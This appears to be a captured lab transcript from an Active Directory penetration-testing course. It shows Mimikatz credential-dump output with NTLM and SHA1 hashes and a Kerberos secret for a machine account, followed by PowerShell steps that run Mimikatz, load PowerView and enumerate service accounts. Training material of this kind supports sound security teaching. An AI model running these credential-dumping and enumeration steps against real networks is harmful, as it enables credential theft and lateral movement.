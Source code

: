 ```
SID               : S-1-5-90-0-1
        msv :
         [00000003] Primary
         * Username : DEV01$
         * Domain   : INLANEFREIGHT
         * NTLM     : ef6a3c65945643fbd1c3cf7639278b33
         * SHA1     : a2cfa43b1d8224fc44cc629d4dc167372f81543f
        tspkg :
        wdigest :
         * Username : DEV01$
         * Domain   : INLANEFREIGHT
         * Password : (null)
        kerberos :
         * Username : DEV01$
         * Domain   : INLANEFREIGHT.LOCAL
         * Password : fb ec 60 8b 93 99 ee 24 a1 dd bf fa a8 da fd 61 cc 14 5c 30 ea 6a e9 f4 bb bc ca 1f be a7 9e ce 8b 79 d8 cb 4d 65 d3 42 e7 a1 98 ad 8e 43 3e b5 77 80 40 c4 ce 61 27 90 37 dc d8 62 e1 77 7a 48 2d b2 d8 9f 4b b8 7a be e8 a4 20 3b 1e 32 67 a6 21 4a b8 e3 ac 01 00 d2 c3 68 37 fd ad e3 09 d7 f1 15 0d 52 ce fb 6d 15 8d b3 c8 c1 a3 c1 82 54 11 f9 5f 21 94 bb cb f7 cc 29 ba 3c c9 5d 5d 41 50 89 ea 79 38 f3 f2 3f 64 49 8a b0 83 b4 33 1b 59 67 9e b2 d1 d3 76 99 3c ae 5c 7c b7 1f 0d d5 fb cc f9 e2 67 33 06 fe 08 b5 16 c6 a5 c0 26 e0 30 af 37 28 5e 3b 0e 72 b8 88 7f 92 09 2e c4 2a 10 e5 0d f4 85 e7 53 5f 9c 43 13 90 61 62 97 72 bf bf 81 36 c0 6f 0f 4e 48 38 b8 c4 ca f8 ac e0 73 1c 2d 18 ee ed 8f 55 4d 73 33 a4 fa 32 94 a9
        ssp :

Authentication Id : 0 ; 996 (00000000:000003e4)
User Name         : DEV01$
Domain            : INLANEFREIGHT
Logon Server      : (null)
Logon Time        : 6/28/2022 3:33:32 PM
SID               : S-1-5-20
        msv :
         [00000003] Primary
         * Username : DEV01$
         * Domain   : INLANEFREIGHT
         * NTLM     : ef6a3c65945643fbd1c3cf7639278b33
         * SHA1     : a2cfa43b1d8224fc44cc629d4dc167372f81543f
        tspkg :
        wdigest :
         * Username : DEV01$
         * Domain   : INLANEFREIGHT
         * Password : (null)
        kerberos :
         * Username : DEV01$
         * Domain   : INLANEFREIGHT.LOCAL
         * Password : (null)
        ssp :
        credman :

Authentication Id : 0 ; 997 (00000000:000003e5)
Session           : Service from 0
User Name         : LOCAL SERVICE
Domain            : NT AUTHORITY
Logon Server      : (null)
Logon Time        : 6/28/2022 3:33:33 PM
SID               : S-1-5-19
        msv :
        tspkg :
        wdigest :
         * Username : (null)
         * Domain   : (null)
         * Password : (null)
        kerberos :
```

[DEV01]: PS C:\Users\backupadm\Documents> cd 'C:\Users\Public\'
[DEV01]: PS C:\Users\Public> .\mimikatz "privilege::debug" "sekurlsa::logonpasswords" exit
[DEV01]: PS C:\Users\Public> tasklist /V |findstr backupadm
[ACADEMY-AEN-DEV01.INLANEFREIGHT.LOCAL]: PS C:\Users\backupadm\Documents> klist
[ACADEMY-AEN-DEV01.INLANEFREIGHT.LOCAL]: PS C:\Users\backupadm\Documents> Import-Module .\PowerView.ps1
[ACADEMY-AEN-DEV01.INLANEFREIGHT.LOCAL]: PS C:\Users\backupadm\Documents> get-domainuser -spn | select samaccountname
[DEV01]: PS C:\Users\backupadm\Documents> klist
[DEV01]: PS C:\Users\Public> get-domainuser -spn | select samaccountname